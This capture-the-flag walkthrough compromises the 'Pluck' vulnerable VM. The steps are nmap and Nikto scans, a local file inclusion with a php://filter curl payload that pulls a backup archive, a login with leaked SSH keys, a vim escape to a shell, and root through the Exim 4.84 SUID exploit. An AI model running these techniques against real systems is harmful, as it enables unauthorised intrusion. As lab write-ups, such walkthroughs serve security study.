

pluck: 1
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=enp0s3 -project=pluck -subnet=true <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to scan your subnet. [+] Alive hosts in 192.168.43.0/24 are: 192.168.43.1 192.168.43.2 192.168.43.5 192.168.43.3 [+] Directory created at: /HaGashash_Projects/pluck/192.168.43.1. [!] Starting to scan 192.168.43.1 for TCP interesting stuff. [!] Starting to scan 192.168.43.1 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/pluck/192.168.43.2. [!] Starting to scan 192.168.43.2 for TCP interesting stuff. [!] Starting to scan 192.168.43.2 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/pluck/192.168.43.5. [!] Starting to scan 192.168.43.5 for TCP interesting stuff. [!] Starting to scan 192.168.43.5 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/pluck/192.168.43.3. [!] Starting to scan 192.168.43.3 for UDP interesting stuff. [!] Starting to scan 192.168.43.3 for TCP interesting stuff. [+] Nmap's TCP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.5 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.5 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully. [+] Summary file for 192.168.43.3 is ready. [+] Summary file for 192.168.43.5 is ready. [+] Summary file for 192.168.43.1 is ready. [+] Summary file for 192.168.43.2 is ready. [gandosha@GandoPC 192.168.43.5]$ cat nmap_TCP_scan_output # Nmap 7.70 scan initiated Mon Nov 5 20:52:54 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/pluck/192.168.43.5/nmap_TCP_scan_output 192.168.43.5 mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers Nmap scan report for 192.168.43.5 Host is up, received arp-response (0.0015s latency). Scanned at 2018-11-05 20:52:56 IST for 152s Not shown: 65531 closed ports Reason: 65531 resets PORT STATE SERVICE REASON VERSION 22/tcp open ssh syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 e8:87:ba:3e:d7:43:23:bf:4a:6b:9d:ae:63:14:ea:71 (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFSQzgfwHXqd1xWOgf75774FzsNjlHCbQMrxD/YxArRbHivjZaqVegVI3sUiy6uO/DLcmnnjxEKpJq0QNWXIi438ctaJzDnxIeeY1WxFVNgxidy0TUdzAOPsclC9v4SeWJS1XnsrPpWWRyBI1J/KdYOtdwtJ3D7YBKONsDMokhotPiGYinBD+DYIyyWKVpNi/6Pj2PqrT1f9KZMlMdda1yEE4x0/vy0tABWnLAR9JlzbDkLY9JpFoZb7Cs+xcwpcj0JNHKnN5IfpyZZ+vGDRdxB4twukRBFkljAxkZb8/QUO83om4vTgr9eLMV4cgwIA8IJsi83puCMfiNrg+VfNwN | 256 8f:8c:ac:8d:e8:cc:f9:0e:89:f7:5d:a0:6c:28:56:fd (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN5PvwhQy4P3+wVM+Tl9dFNeO1MWbOR50xImivscOMxL6HRVDbyYSFE8anA/SQntiOFqIkgk16pHSYXB2w5sgzQ= | 256 18:98:5a:5a:5c:59:e1:25:70:1c:37:1a:f2:c7:26:fe (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC5tbgnjQoXQRDtMCFeK6iEMlBokAJpBWfNq15V7O/Wf 80/tcp open http syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu)) | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-server-header: Apache/2.4.18 (Ubuntu) |_http-title: Pluck 3306/tcp open mysql syn-ack ttl 64 MySQL (unauthorized) 5355/tcp open llmnr? syn-ack ttl 1 MAC Address: 08:00:27:45:29:54 (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 3.X|4.X OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 OS details: Linux 3.2 - 4.9 TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=11/5%OT=22%CT=1%CU=35213%PV=Y%DS=1%DC=D%G=Y%M=080027%T OS:M=5BE09220%P=x86_64-unknown-linux-gnu)SEQ(SP=104%GCD=1%ISR=10E%TI=Z%CI=I OS:%II=I%TS=8)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11 OS:NW6%O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=71 OS:20%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=4 OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40 OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y OS:%DFI=N%T=40%CD=S) Uptime guess: 198.048 days (since Sat Apr 21 20:46:32 2018) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=260 (Good luck!) IP ID Sequence Generation: All zeros Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 1.54 ms 192.168.43.5 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Mon Nov 5 20:55:28 2018 -- 1 IP address (1 host up) scanned in 157.53 seconds
Port 80 check:
Attempt to access via http port 80:
I started to scan the target using Nikto:
- Nikto v2.1.6 --------------------------------------------------------------------------- + Target IP: 192.168.43.5 + Target Hostname: 192.168.43.5 + Target Port: 80 + Start Time: 2018-11-08 16:39:01 (GMT2) --------------------------------------------------------------------------- + Server: Apache/2.4.18 (Ubuntu) + The anti-clickjacking X-Frame-Options header is not present. + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type + No CGI Directories found (use '-C all' to force check all possible dirs) + Web Server returns a valid response with junk HTTP methods, this may cause false positives. + /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php) + OSVDB-29786: /admin.php?en_log_id=0&action=config: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected. + OSVDB-29786: /admin.php?en_log_id=0&action=users: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected. + OSVDB-3092: /admin.php: This might be interesting... + OSVDB-3268: /images/: Directory indexing found. + OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found. + Server leaks inodes via ETags, header found with file /icons/README, fields: 0x13f4 0x438c034968a80 + OSVDB-3233: /icons/README: Apache default file found. + 7535 requests: 0 error(s) and 12 item(s) reported on remote host + End Time: 2018-11-08 16:39:48 (GMT2) (47 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
Local file inclusion:
A LFI vulnerabilty is found by Nikto.
/etc/passwd content:
I saw the user "easier" in that file and I decided to see what's inside backup.sh file:

I thought that backup.tar file may be interesting.
I decided to get this file:
[GandoPC 192.168.43.5]# curl 192.168.43.5/index.php?page=php://filter/convert.base64-encode/resource=/backups/backup.tar > backup_tar
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2361k 0 2361k 0 0 23.7M 0 --:--:-- --:--:-- --:--:-- 24.2M
[GandoPC 192.168.43.5]# file backup_tar
backup_tar: HTML document, ASCII text, with very long lines
[GandoPC 192.168.43.5]# nano backup_tar
[GandoPC 192.168.43.5]# base64 -d backup_tar > backup.tar
[GandoPC 192.168.43.5]# file backup.tar
backup.tar: POSIX tar archive (GNU)
[GandoPC 192.168.43.5]# tar -xvf backup.tar
home/
home/bob/
home/bob/.bashrc
home/bob/.sudo_as_admin_successful
home/bob/.profile
home/bob/.bash_logout
home/paul/
home/paul/keys/
home/paul/keys/id_key3.pub
home/paul/keys/id_key2.pub
home/paul/keys/id_key2
home/paul/keys/id_key4.pub
home/paul/keys/id_key5.pub
home/paul/keys/id_key6
home/paul/keys/id_key1
home/paul/keys/id_key5
home/paul/keys/id_key1.pub
home/paul/keys/id_key6.pub
home/paul/keys/id_key4
home/paul/keys/id_key3
home/paul/.bashrc
home/paul/.profile
home/paul/.bash_logout
home/peter/
home/peter/.bashrc
home/peter/.profile
home/peter/.bash_logout
var/www/html/
var/www/html/fonts/
var/www/html/fonts/glyphicons-halflings-regular.svg
var/www/html/fonts/glyphicons-halflings-regular.woff2
var/www/html/fonts/glyphicons-halflings-regular.ttf
var/www/html/fonts/glyphicons-halflings-regular.woff
var/www/html/fonts/glyphicons-halflings-regular.eot
var/www/html/about.php
var/www/html/index.php
var/www/html/footer.php
var/www/html/css/
var/www/html/css/bootstrap.css.map
var/www/html/css/bootstrap.min.css.map
var/www/html/css/bootstrap-theme.css
var/www/html/css/bootstrap-theme.min.css
var/www/html/css/bootstrap.min.css
var/www/html/css/bootstrap-theme.min.css.map
var/www/html/css/bootstrap-theme.css.map
var/www/html/css/bootstrap.css
var/www/html/header.php
var/www/html/admin.php
var/www/html/js/
var/www/html/js/jquery.min.js
var/www/html/js/bootstrap.js
var/www/html/js/npm.js
var/www/html/js/bootstrap.min.js
Extracting this .tar file revealed some SSH keys.
Next, I tried to initiate a SSH connection using those keys:
[GandoPC keys]# ssh paul@192.168.43.5 -i id_key1 paul@192.168.43.5's password: [GandoPC keys]# ssh paul@192.168.43.5 -i id_key2 paul@192.168.43.5's password: [GandoPC keys]# ssh paul@192.168.43.5 -i id_key3 paul@192.168.43.5's password: [GandoPC keys]# ssh paul@192.168.43.5 -i id_key4
Using id_key4 I got a successfull connection and a pdmenu is presented:
Gaining a shell using vim:
Pdmenu uses vim in order to edit a file.
I tried to manipulate it in order to get a shell:
Paul's shell obtained:
Privilege escalation:
I checked for any interesting binaries that have their SUID bit set:
paul@pluck:~$ find / -perm -u=s -type f 2>/dev/null /usr/exim/bin/exim-4.84-7 /usr/bin/passwd /usr/bin/at /usr/bin/newgrp /usr/bin/pkexec /usr/bin/sudo /usr/bin/traceroute6.iputils /usr/bin/newuidmap /usr/bin/chfn /usr/bin/gpasswd /usr/bin/newgidmap /usr/bin/chsh /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/lib/policykit-1/polkit-agent-helper-1 /usr/lib/s-nail/s-nail-privsep /usr/lib/openssh/ssh-keysign /usr/lib/eject/dmcrypt-get-device /bin/su /bin/umount /bin/mount /bin/fusermount /bin/ping /bin/ntfs-3g paul@pluck:~$ ls -aul /usr/exim/bin/exim-4.84-7 -rwsr-xr-x 1 root root 1046368 Jan 18 2017 /usr/exim/bin/exim-4.84-7
A vulnerabilty for exim 4.84 is found:
[gandosha@GandoPC 192.168.43.5]$ getsploit exim 4.84 Total found exploits: 5 Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+exim+4.84 +----------------------+--------------------------------+----------------------------------------------------+ | ID | Exploit Title | URL | +======================+================================+====================================================+ | 1337DAY-ID-25051 | SAP NetWeaver AS JAVA 7.1 < | https://vulners.com/zdt/1337DAY-ID-25051 | | | 7.5 - SQL Injection | | +----------------------+--------------------------------+----------------------------------------------------+ | SSV:91401 | exim <= 4.84-3 | https://vulners.com/seebug/SSV:91401 | +----------------------+--------------------------------+----------------------------------------------------+ | 1337DAY-ID-25543 | Exim 4.84-3 - Privilege | https://vulners.com/zdt/1337DAY-ID-25543 | | | Escalation | | +----------------------+--------------------------------+----------------------------------------------------+ | EDB-ID:39535 | exim <= 4.84-3 - Local Root | https://vulners.com/exploitdb/EDB-ID:39535 | | | Exploit | | +----------------------+--------------------------------+----------------------------------------------------+ | PACKETSTORM:136124 | Exim 4.84-3 Local Root / | https://vulners.com/packetstorm/PACKETSTORM:136124 | | | Privilege Escalation | | +----------------------+--------------------------------+----------------------------------------------------+
Running that exploit got me root permission and finally the flag:
paul@pluck:~$ cd /tmp/;nano exp.sh bash: nano: command not found paul@pluck:/tmp$ vim exp.sh paul@pluck:/tmp$ ls -aul exp.sh -rw-rw-r-- 1 paul paul 631 Nov 7 16:28 exp.sh paul@pluck:/tmp$ chmod u+x exp.sh paul@pluck:/tmp$ ./exp.sh ./exp.sh: line 1: =: No such file or directory [ CVE-2016-1531 local root exploit # whoami root # pw /bin/sh: 2: pw: not found # pwd /tmp # cd /;ls aul ls: cannot access 'aul': No such file or directory # cd /;ls -aul total 96 drwxr-xr-x 23 root root 4096 Nov 6 21:56 . drwxr-xr-x 23 root root 4096 Nov 6 21:56 .. drwxr-xr-x 2 backup-user root 4096 Nov 6 21:56 backups drwxr-xr-x 2 root root 4096 Nov 6 21:55 bin drwxr-xr-x 3 root root 4096 Nov 6 21:56 boot drwxr-xr-x 19 root root 4220 Nov 7 14:58 dev drwxr-xr-x 98 root root 4096 Nov 6 21:56 etc drwxr-xr-x 5 root root 4096 Nov 6 20:14 home lrwxrwxrwx 1 root root 32 Jan 19 2017 initrd.img -> boot/initrd.img-4.8.0-22-generic drwxr-xr-x 20 root root 4096 Nov 6 21:56 lib drwxr-xr-x 2 root root 4096 Nov 6 21:56 lib64 drwx------ 2 root root 16384 Jan 19 2017 lost+found drwxr-xr-x 3 root root 4096 Nov 6 21:56 media drwxr-xr-x 2 root root 4096 Nov 6 21:56 mnt drwxr-xr-x 2 root root 4096 Nov 6 21:56 opt dr-xr-xr-x 137 root root 0 Nov 7 14:58 proc drwx------ 2 root root 4096 Nov 6 21:09 root drwxr-xr-x 24 root root 860 Nov 7 16:19 run drwxr-xr-x 2 root root 12288 Nov 6 21:55 sbin drwxr-xr-x 2 root root 4096 Nov 6 21:56 srv dr-xr-xr-x 13 root root 0 Nov 7 16:19 sys drwxrwxrwt 8 root root 4096 Nov 7 16:28 tmp drwxr-xr-x 11 root root 4096 Nov 6 20:12 usr drwxr-xr-x 13 root root 4096 Nov 6 21:56 var lrwxrwxrwx 1 root root 29 Jan 20 2017 vmlinuz -> boot/vmlinuz-4.8.0-22-generic # cd root;ls flag.txt # cat flag.txt Congratulations you found the flag --------------------------------------- ###### (((((((((((((((((((((((((((((( ######### ((((((((((((((((((((((((((( ,,########## (((((((((((((((((((((((( @@,,,########## ((((((((((((((((((((( @@@@@,,,########## @@@@@@@@,,,############################ @@@@@@@@@@@,,,######################### @@@@@@@@@,,,########################### @@@@@@,,,########## @@@,,,########## &&&&&&&&&&&&&&&&&&&& ,,,########## &&&&&&&&&&&&&&&&&&&&&&& ########## &&&&&&&&&&&&&&&&&&&&&&&&&& ####### &&&&&&&&&&&&&&&&&&&&&&&&&&&&&